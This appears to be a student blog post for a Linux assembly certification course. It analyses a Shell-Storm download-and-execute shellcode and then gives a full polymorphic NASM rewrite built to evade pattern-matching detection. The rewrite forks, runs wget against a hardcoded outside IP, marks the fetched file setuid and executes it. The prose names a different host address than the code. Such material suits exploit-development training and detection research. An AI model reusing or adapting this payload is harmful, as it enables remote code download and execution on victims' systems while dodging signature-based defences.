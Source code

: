 # Assignment 6: Download and Execute

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Download and Execute shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-862.php](http://shell-storm.org/shellcode/files/shellcode-862.php "").

### Shellcode Analysis

Tracing the instruction set, we observe that the shellcode first creates a child process (a copy) of itself with the `fork()` system call. The child process is used to download the file that later on is executed by the parent process. Since a child process will return a Process ID of `0`, while the parent process will return a non-zero Process ID, the execution flow is able to determine which instruction set it should execute even though the processes are copies. If PID is zero, the program will go ahead and jump to the download section of the code, where it will use the `execve()` system call to execute `/usr/bin/wget 192.168.2.222//x`. 

While the child process is being executed, the parent process goes on to execute the `waitpid()` system call with PID equal to zero (child process). The  `waitpid()` system  call  suspends execution of the calling process until a child specified by PID argument has changed state. By default, `waitpid()` waits only for terminated children. So, the parent process waits for the download to finish and then goes on to execute the rest of the instructions. 

The parents first uses the `chmod()` system call to execute `chmod 777` on the downloaded file, and then finally proceeds to execute the downloaded file with the `execve()` system call.

It is interesting to note that it was necessary to `fork()` a child in this case because `execve()` does not return execution back to the code that called it. Therefore, by using separate processes for downloading and executing, along with the `waitpid()` functionality, it was possible to execute `execve()` twice from the same shellcode.

### Polymorphic Shellcode

The technique used in the original shellcode sample is entirely replicated in the polymorphic version. Nevertheless, the instruction set is completely different (except for constant strings, such as `/usr/bin/wget` that could of course be used as a fingerprint). Even though Using an encoder would help to remediate this limitation, the shellcode presented here does not include that functionality. It is rather made to be as short as possible.

### a6-dlexec.nasm
```nasm
; SLAE Assignment 6: Download Chmod Execute (morphed)
; http://shell-storm.org/shellcode/files/shellcode-862.php
; Original Shellcode Length:	108
; Morphed Shellcode Length:		96


global _start
section .text
_start:
	push byte 0x2 		; #define __NR_fork 2
	pop eax 			; pid_t fork(void);			--> in child returns 0
	int 0x80 			; make a child
	jz short download 	; if this is a child, download

zzz:
	push byte 0x7 		; #define __NR_waitpid 7
	pop eax 			; pid_t wait(int *status);
	int 0x80 			; wait for the child (download)

chmod:
	push byte 0xf 		; #define __NR_chmod 15
	pop eax 			; int chmod(const char *path, mode_t mode);
	push edx
	push byte 0x62		; b
	mov ebx, esp 		; *path -> b
	push word 0x9ed 	; 4755 (octal)
	pop ecx 			; mode = 4755 
	int 0x80 			; chmod

execve:
	push byte 0xb 		; #define __NR_execve 11
	pop eax 			; int execve(const char *filename, char *const argv[], char *const envp[]);
	push byte 0x62 		; b
	mov ebx, esp 		; *filename -> b
	push edx 			; NULL
	mov edx, esp  		; *envp[] -> 0
	push ebx 			; put filename on the stack
	mov ecx, esp		; *argv[] -> b\0
	int 0x80

download:
	push 0xb			; #define __NR_execve 11
	pop eax				; int execve(const char *filename, char *const argv[], char *const envp[]);
	cdq 				; *envp[] -> 0
	push edx
	push 0x622f3832		; b/82
	push 0x2e333532		; .352
	push 0x2e303231		; .021
	push 0x2e383831		; .881
	mov ecx, esp		; *argv[] -> 188.120.253.28/b
	push edx
	push 0x74			; t
	push 0x6567772f		; egw/
	push 0x6e69622f		; nib/
	push 0x7273752f		; rsu/
	mov ebx, esp		; *filename -> /usr/bin/wget
	push edx
	push ecx
	push ebx
	mov ecx, esp		
	int 0x80 			; download
```

As can be observed and verified, the morphed version is 12 bytes shorter than the original sample from Shell-Storm.

